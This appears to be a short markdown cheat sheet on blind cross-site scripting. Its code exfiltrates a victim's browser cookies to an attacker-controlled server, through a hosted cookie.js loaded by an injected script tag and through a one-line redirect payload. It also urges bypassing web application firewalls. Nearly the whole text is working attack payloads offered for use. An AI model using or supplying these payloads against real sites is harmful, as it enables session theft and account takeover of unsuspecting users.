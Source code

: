 # Identifing blind xss
### 1. Host a temorary http server(attacker server) with below file and paste the below code inside as cookie.js

``` var request = new XMLHttpRequest();
request.open('GET', 'http://attacker-server-ip/?test='+document.cookie, true);
request.send() ```

<br/>
### 2. Submit a payload which will render the above script
``` <script src="http://attacker-server-ip/cookie.js"></script> ```
Try to bypass the filters if there is any WAF

### 3. You will receive cookie on attacker-server

### Directly stealing the cookie(this may or may not work and try it with single quote & double quote and also bypass filter protection if WAF exist)
<script>document.location='http://attacker-ip/?c='+document.cookie</script>
